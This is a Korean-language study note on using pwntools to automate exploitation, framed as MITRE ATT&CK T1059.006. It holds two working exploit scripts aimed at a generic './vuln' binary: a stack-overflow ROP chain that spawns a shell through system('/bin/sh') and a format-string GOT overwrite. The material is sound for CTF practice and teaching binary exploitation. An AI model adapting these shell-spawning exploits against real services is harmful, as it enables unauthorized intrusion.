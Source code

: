 ## Context
- **Tactic**: Execution (TA0002)
- **Technique**: T1059.006 – Command and Scripting Interpreter: Python
- **Procedure**: Delivering an automated BOF-ROP payload to a remote process using a pwntools script to achieve shell execution.

## Core Idea

```
┌─────────────────────────────────────────────────────────┐
│               Python Exploit Script                     │
├─────────────────┬──────────────────┬────────────────────┤
│    ELF Layer    │    ROP Layer     │     Tube Layer     │
│  (Analysis)     │   (Strategy)     │    (Execution)     │
├─────────────────┼──────────────────┼────────────────────┤
│ - Parses binary │ - Finds gadgets  │ - Connects to      │
│   metadata      │ - Chains attacks │   target process   │
│ - Extracts      │ - Builds         │ - Sends payload    │
│   symbols/addrs │   payloads       │ - Gets shell       │
├─────────────────┼──────────────────┼────────────────────┤
│    Provides     │     Creates      │    Delivers &      │
│  target info    │  attack vector   │    executes        │
└───────┬─────────┴────────┬─────────┴─────────┬──────────┘
        │                  │                   │
        ▼                  ▼                   ▼
┌─────────────────────────────────────────────────────────┐
│         Programmable Exploit Pipeline                   │
│  [Analysis] ───────► [Strategy] ───────► [Execution]    │
└─────────────────────────────────────────────────────────┘
```

`pwntools`는 **Tube ↔ ELF ↔ ROP** 세 계층을 하나의 스크립트 안에서 결합하여, 반복적이고 수동 오류가 잦은 익스플로잇 과정을 자동화된 파이프라인으로 전환한다.

- **Tube**는 `process()` 또는 `remote()`를 통해 대상과 연결하고, `send`, `recv`, `interactive()` 등으로 입출력을 처리한다.
- **ELF**는 바이너리의 구조 정보를 파싱하여 함수 주소, PLT/GOT, 문자열 위치 등을 간편히 조회한다.
- **ROP**는 필요한 가젯(`pop rdi` 등)을 자동으로 탐색하고, 체인을 구성하여 NX·Canary 등 보호기법 우회를 가능하게 한다.

이 세 계층은 `분석 → 전략 수립 → 실행 및 쉘 상호작용`이라는 일관된 워크플로우를 구성하며, 다양한 공격 시나리오에서 재사용 가능한 구조를 제공한다.

## Code / Experiment

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./vuln')   # ELF 계층
context.log_level = 'debug'            # 상세 출력

def conn():
    if args.REMOTE:
        return remote('host', 9001)    # Tube 계층 (원격)
    return process(elf.path)           # Tube 계층 (로컬)

io      = conn()
rop     = ROP(elf)                     # ROP 계층
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]  # 16-byte 스택 정렬용

payload  = flat(
    b'A' * 72,          # buf(64)+SFP(8)
    pop_rdi,
    next(elf.search(b'/bin/sh\x00')),
    ret,
    elf.plt['system']   # system("/bin/sh")
)

io.sendlineafter(b'Input:', payload)
io.interactive()
```

- Format String Bug(FSB) 기반 GOT 오버라이트 예시
```python
# Format String Bug(FSB)를 이용한 GOT 오버라이트 예시
from pwn import *

elf = context.binary = ELF('./vuln')     # ELF: 바이너리 분석
io = process(elf.path)                   # Tube: 프로세스 연결

# 공격 전략 - FSB를 이용해 exit@GOT를 system 주소로 덮어쓰기
exit_got = elf.got['exit']               # exit 함수의 GOT 주소
system_plt = elf.plt['system']           # system 함수의 PLT 주소

# Tube: 데이터 송수신 - FSB 페이로드 전송
payload = fmtstr_payload(offset=6, writes={exit_got: system_plt})
io.sendlineafter(b'Input: ', payload)

# exit 호출 시 system('/bin/sh')가 실행되도록 쉘 문자열 전송
io.sendlineafter(b'Again? ', b'/bin/sh')

# Tube: 대화형 모드로 전환
io.interactive()
```

- `pattern_create`, `pattern_offset` (또는 `cyclic()`, `cyclic_find()`)를 이용하면 2초 안에 정확한 오프셋을 찾을 수 있다.
- `checksec --file=./vuln` 결과를 보고 `NX`, `PIE`, `RELRO`, `Canary` 상태별로 ROP 전략을 분기해 스크립트를 더 일반화할 수 있다.
- `args.REMOTE` 옵션을 활용하면 로컬과 원격을 하나의 코드로 통합 관리할 수 있다.

## Note
- Tube는 인터프리터 기반 자동화된 공격 흐름을 구성하며, Python 스크립트에서 C2 구조의 명령 송신과 유사한 역할을 수행한다.
- ELF 계층은 심볼, 문자열, 보호 상태(`NX`, `RELRO`, `PIE`, `Canary`)를 추상화하여 익스플로잇 전략 설계에 필요한 정보를 메타데이터처럼 제공한다.
- ROP는 수작업으로 어려운 체인 구성과 가젯 정렬을 자동화하며, 반복 실험 중 수정을 최소화할 수 있게 한다.
- 구조를 함수화하면 `exploit(target_ip, flag_path)` 형태로 전략은 유지하고 대상만 바꾸는 형태로 재사용 가능하다.

---

Backlinks:
-
